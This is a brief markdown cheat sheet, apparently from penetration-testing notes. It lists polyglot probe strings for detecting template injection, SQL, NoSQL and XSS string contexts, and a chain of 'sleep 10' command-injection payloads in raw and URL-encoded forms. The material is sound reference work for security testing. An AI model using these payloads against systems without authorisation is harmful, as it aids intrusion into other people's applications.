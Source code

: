 # Errors based/behaviour inferer

## PHP String context for SSTi, evaluation, NoSQL, SQLi, XSS

``hello"."@(${{[%<%'**'><h1>asad2afdsd42sg</h1>`` => `Surrounding string:'` then output should be: `hello@(\${{[%<%"."> (concats ')` && `Surrounding string:"` then output should be: `hello'.'@(${{[%<%> concats(")`

## Other languages string context for SSTi, evaluation, NoSQL, SQLi, XSS

`hello"+"@(${{[%<%'**'><h1>asad2afdsd42sg</h1>` => `Sourrounding string:'` then output should be: `Generic Error Message (Fails to concat)` && `Surrounding string: "` then output should be `hello@(${{[%<%'**'> (Concats)`

###  Urlencoded Version

`hello"%2b"%40(${{[%25<%25'**'><h1>asad2afdsd42sg</h1>`

## Error based inferer for OSCMDi, Path Traversal in Unix

``$(sleep 10) || sleep 10 | sleep 10; sleep 10 && sleep 10 `sleep 10`";$(sleep 10) `sleep 10`|| sleep 10 | sleep 10; sleep 10 && sleep 10"';sleep 10 && sleep 10 || sleep 10 | sleep 10 `sleep 10`'``

### Urlencoded Version

``$(sleep+10)+||+sleep+10+|+sleep+10;+sleep+10+%26%26+sleep+10+`sleep+10`";$(sleep+10)+`sleep+10`||+sleep+10+|+sleep+10;+sleep+10+%26%26+sleep+10"';sleep+10+%26%26sleep+10+||+sleep+10+|+sleep+10+`sleep+10`'``

Works in raw format, between `'` or `"`.
